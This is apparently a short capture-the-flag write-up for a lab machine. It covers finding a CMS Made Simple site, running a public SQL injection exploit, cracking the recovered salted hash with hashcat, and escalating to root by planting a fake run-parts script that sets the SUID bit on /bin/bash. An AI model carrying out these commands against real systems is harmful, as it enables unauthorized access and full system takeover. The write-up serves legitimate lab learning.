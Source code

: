 this box shows a webserver and ssh

looking at the webpage there isnt a lot
visiting /robots.txt
we find the /writeup directory

here in the source we find it is made with cms made simple

looking for an exploit gets us an exploit
https://www.exploit-db.com/exploits/46635
after fixign it for python3 and running it
we get a user, password hash, and salt

with this we can crack the password:
echo {password}:{salt}> hash
hashcat -a 0 -m 20 hash /usr/share/wordlists/rockyou.txt

so we can login at the ssh with these credentials

id shows us a non standard group: staff
this group is special bcs it allows us to write to /usr/local/bin and /usr/local/sbin
ls -ld /usr/local/bin/ /usr/local/sbin/

uploading pspy
wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy32
scp pspy32 jkr@10.10.10.138:/tmp
and running it a first terminal
and logging in on a second terminal

using this we saw that root runs "run-parts"

and using this oneliner we can hijack it
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts

then after a new login and
/bin/bash -p

we are logged in as root
